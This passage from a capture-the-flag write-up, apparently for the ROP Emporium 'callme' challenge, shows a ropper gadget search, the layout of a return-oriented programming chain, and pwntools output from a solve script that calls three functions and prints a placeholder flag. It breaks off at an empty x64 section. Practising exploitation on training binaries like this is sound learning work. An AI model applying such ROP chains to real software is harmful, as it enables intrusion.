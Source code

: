 In order to call the functions with arguments, I need a gadget to pop the argument off the stack into registers once I've called each function. I want any gadget with a pop, so I can search for one with ropper.
```bash
kali@kali:~/Desktop/rop/callme$ ropper --file callme32 --search pop
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: callme32
0x080487fb: pop ebp; ret; 
0x080487f8: pop ebx; pop esi; pop edi; pop ebp; ret; 
0x080484ad: pop ebx; ret;
0x080487fa: pop edi; pop ebp; ret; 
0x080487f9: pop esi; pop edi; pop ebp; ret;                <------ This one
0x08048810: pop ss; add byte ptr [eax], al; add esp, 8; pop ebx; ret; 
0x080486ea: popal; cld; ret;
```
This one should do the job, as it allows me to supply three arguments to each function. I now have all the components needed to craft the exploit. I can create the script in pwntools using the ROP features, but for my understanding the exploit is as follows:
`44 bytes - callme_one - gadget - args - callme_two - gadget - args - callme_three - gadget - args`
  
In my exploit script I develop the rop chain using pwntools methods and also manually for my own understanding (see solve.py).

### 3. Get the flag
```bash
kali@kali:~/Desktop/rop/callme$ python solve.py 
[*] '/home/kali/Desktop/rop/callme/callme32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  '.'
[*] Loaded 10 cached gadgets for 'callme32'
[*] 0x0000:        0x80484f0 callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)
    0x0004:        0x80484aa <adjust @0x14> add esp, 8; pop ebx; ret
    0x0008:       0xdeadbeef arg0
    0x000c:       0xcafebabe arg1
    0x0010:       0xd00df00d arg2
    0x0014:        0x8048550 callme_two(0xdeadbeef, 0xcafebabe, 0xd00df00d)
    0x0018:        0x80484aa <adjust @0x28> add esp, 8; pop ebx; ret
    0x001c:       0xdeadbeef arg0
    0x0020:       0xcafebabe arg1
    0x0024:       0xd00df00d arg2
    0x0028:        0x80484e0 callme_three(0xdeadbeef, 0xcafebabe, 0xd00df00d)
    0x002c:           'laaa' <return address>
    0x0030:       0xdeadbeef arg0
    0x0034:       0xcafebabe arg1
    0x0038:       0xd00df00d arg2
[+] Starting local process '/home/kali/Desktop/rop/callme/callme32': pid 3119
[+] Receiving all data: Done (104B)
[*] Process '/home/kali/Desktop/rop/callme/callme32' stopped with exit code 0 (pid 3119)
Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```
## Differences in architecture
For the x64 binary the process is similar. Firstly find the function addresses in the import table.
```bash
```